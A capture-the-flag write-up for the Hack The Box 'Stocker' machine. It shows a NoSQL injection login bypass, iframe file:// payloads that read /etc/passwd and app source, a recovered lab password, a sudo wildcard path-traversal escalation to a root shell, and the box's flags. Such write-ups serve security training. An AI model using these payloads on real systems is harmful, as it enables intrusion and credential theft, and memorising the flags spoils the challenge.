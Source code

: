 ```yaml
---
title: "Stocker from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Stocker from HTB
`nmap`gave this:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
Add the site to `/etc/hosts`:
```
10.10.11.196 stocker.htb
```
Access the site and there is nothing.
Start directory and subdomain enumeration. And in subdomain enumeration you will find `dev`subdomain:
```bash
ffuf -u http://stocker.htb -H "Host: FUZZ.stocker.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fs 178
----------------
--------------
dev
```
Add it to `/etc/hosts`
```
10.10.11.196 dev.stocker.htb
```
It's a login page. We have to perform `nosql injection`. Fire up `BurpSuite`
Turn on `Intercept`and click login. And this is the payload.
```js
-------------------
Content-Type: application/json
---------------
---------
{
  "username":{
    "$ne":"null"
  },
  "password":{
    "$ne":"null"
  }
}
```
`Forward`it and you will get logged in.
Press `add cart`, turn `Intercept`on and then click `Purchase`. You will need to modify one item like this:
```
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":2}]}
```
Basically add
```
<iframe src='file:///etc/passwd' width='1000' height='1000'></iframe>
```
This will read `/etc/passwd`Then `view purchase order here`and read the `/etc/passwd`. Remember `angoose`who is an user in the system.
Then add this payload:
```
<iframe src='file:///var/www/dev/index.js' width='1000' height='1000'></iframe>
```
Read it and you will get the password for `angoose`.
>Username
>    angoose
> Password
>    IHeardPassphrasesArePrettySecure

Connect to `ssh angoose@stocker.htb` with password.
***
User Flag is: 8a8f71de1bb72eddb879ad9010ed6790
***
```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose:
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```
This means we have to create an `.js`file which will spawn an `bash shell`. But we do not have an write permission in that directory. As `*`means every string we can use that.
Basically `*`is also equal to `../../../tmp/shell.js`or whatever you want.
Create an `shell.js`with this inside:
```bash
const { spawn } = require('child_process');

// Spawning an interactive Bash shell
spawn('/bin/bash', { stdio: [0, 1, 2] });
```
Then run it and become the `root`:
```bash
 sudo /usr/bin/node /usr/local/scripts/../../../tmp/shell.js
root@stocker:/tmp#
```
***
Root Flag is: c735f1974f3988b1cd17a115179d74ef
***
![](/assets/images/Screenshot from 2024-08-12 23-27-45.png)
